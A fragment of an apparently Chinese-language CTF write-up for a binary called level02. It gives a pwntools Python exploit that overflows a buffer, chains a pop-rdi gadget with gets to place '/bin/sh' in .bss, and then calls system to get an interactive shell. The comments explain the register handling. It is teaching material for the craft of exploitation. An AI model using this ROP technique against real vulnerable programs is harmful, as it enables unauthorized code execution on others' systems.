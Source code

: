还需要找指令将bss地址传入rdi作为参数

![image-20220318191533956](自救指南.assets/image-20220318191533956.png)

#### Exploit

```python
from pwn import*
o = process("./level02")
elf = ELF('./level02')
gets_plt = elf.plt['gets']
system_plt = elf.plt['system']
bss_addr = 0x00601040
pop_rdi =  0x0000000000400613
payload = 'a'*0x18	# 填充buf和rbp
payload += p64(pop_rdi) + p64(bss_addr)	# bss地址传入rdi
payload += p64(gets_plt) + p64(pop_rdi) + p64(bss_addr) +p64(system_plt)	# 执行gets函数 
# 当gets执行完后去执行system("/bin/sh"), 讲一下为什么还要传参, 而不是直接跳转执行system
# 一般可能都会认为就是gets的参数就是bss_addr, 那么执行完, rdi里应该还保存这bss_addr
# 对于其他的输入函数可能是这样, 但是gets函数每输入一个字节, rdi中的指针就会加1
# 这就导致执行完gets函数rdi存储的并不指向"/bin/sh"
o.sendline(payload)
o.sendline("/bin/sh")	# 通过gets函数将"/bin/sh"输入到bss段
o.interactive()
```
